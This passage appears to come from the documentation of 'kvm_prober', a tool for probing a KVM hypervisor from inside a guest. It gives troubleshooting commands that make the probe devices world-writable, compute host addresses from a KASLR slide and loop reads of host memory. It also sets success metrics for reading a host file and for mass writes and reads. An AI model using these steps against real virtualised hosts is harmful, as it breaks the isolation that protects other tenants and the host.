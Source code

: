 **Issue**: IOCTL failures
```bash
# Test basic functionality
kvm_prober readport c050 1

# Check permissions
ls -la /dev/kvm_probe_*
sudo chmod 666 /dev/kvm_probe_*
```

**Issue**: Hypercalls return 0xffffffffffffffff
```bash
# This is expected for unsupported hypercalls
# Try different hypercall numbers: 100, 101, 102, 103

# Check if KVM is active
cat /proc/cpuinfo | grep -i vmx  # Intel
cat /proc/cpuinfo | grep -i svm  # AMD
```

**Issue**: No data from host memory reads
```bash
# Verify KASLR slide
kvm_prober getkaslr

# Adjust addresses with KASLR offset
# Host base = 0xffffffff81000000 + slide

# Try scanning around target addresses
for offset in {0..100..10}; do
    kvm_prober readmmio_buf $((0x695ee10 + offset)) 64
done
```

## 📈 Success Metrics

### Objective A (Read Host File)
- ✅ Success: File content retrieved
- ⚠️ Partial: Some data retrieved
- ❌ Failed: No data retrieved

### Objective B (Mass Write)
- ✅ Success: ≥125,000 writes (50%)
- ⚠️ Partial: 50,000-124,999 writes (20-49%)
- ❌ Failed: <50,000 writes

### Objective C (Mass Read)
- ✅ Success: ≥50,000 samples
- ⚠️ Partial: 25,000-49,999 samples
- ❌ Failed: <25,000 samples

## 🎯 Advanced Techniques
